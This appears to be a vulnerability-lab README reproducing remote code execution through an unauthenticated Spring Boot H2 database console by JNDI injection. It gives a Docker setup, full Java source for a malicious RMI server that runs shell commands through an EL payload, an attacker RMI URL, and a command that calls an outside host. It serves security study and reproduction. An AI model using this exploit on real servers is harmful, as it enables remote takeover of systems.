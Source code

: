 # H2 Database Web Console Unauthorized Access

[中文版本(Chinese version)](README.zh-cn.md)

H2 database is a embedded in-memory database in Java. Springboot with h2 database comes with a web management page which has no authentication if you set the following options:

```
spring.h2.console.enabled=true
spring.h2.console.settings.web-allow-others=true
```

This management page supports using JNDI to load the JDBC driver, which can lead to remote code execution via remote class loading.

References:

- <https://mp.weixin.qq.com/s?__biz=MzI2NTM1MjQ3OA==&mid=2247483658&idx=1&sn=584710da0fbe56c1246755147bcec48e>

## Setup

Start a spring-boot with h2 database and embedded tomcat:

```
docker compose up -d
```

After started the container, the spring-boot is listening on `http://your-ip:8080`, the management page is `http://your-ip:8080/h2-console/` by default.

## Vulnerability Reproduce

Reference to *[Exploiting JNDI Injections in Java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)*, we should use `org.apache.naming.factory.BeanFactory` and `javax.el.ELProcessor` to launch the external process after Java 8u191:

```java
import java.rmi.registry.*;
import com.sun.jndi.rmi.registry.*;
import javax.naming.*;
import org.apache.naming.ResourceRef;
 
public class EvilRMIServerNew {
    public static void main(String[] args) throws Exception {
        System.out.println("Creating evil RMI registry on port 1097");
        Registry registry = LocateRegistry.createRegistry(1097);
 
        //prepare payload that exploits unsafe reflection in org.apache.naming.factory.BeanFactory
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        //redefine a setter name for the 'x' property from 'setX' to 'eval', see BeanFactory.getObjectInstance code
        ref.add(new StringRefAddr("forceString", "x=eval"));
        //expression language to execute 'nslookup jndi.s.artsploit.com', modify /bin/sh to cmd.exe if you target windows
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/sh','-c','nslookup jndi.s.artsploit.com']).start()\")"));
 
        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("Object", referenceWrapper);
    }
}
```

Simply use this tool *[JNDI](https://github.com/JosephTribbianni/JNDI)* to exploit the vulnerability. First, set up the target command to `touch /tmp/success` at `config.properties`:

![](3.png)

Then start the `JNDI-1.0-all.jar`, is will be listening on `0.0.0.0:23456`. fill in the form based on these pieces of information:

![](1.png)

`javax.naming.InitialContext` is the JNDI factory class name, URL `rmi://evil:23456/BypassByEL` is your evil RMI address.

Evil RMI server received the requests:

![](2.png)

`touch /tmp/success` has been execute successfully:

![](4.png)
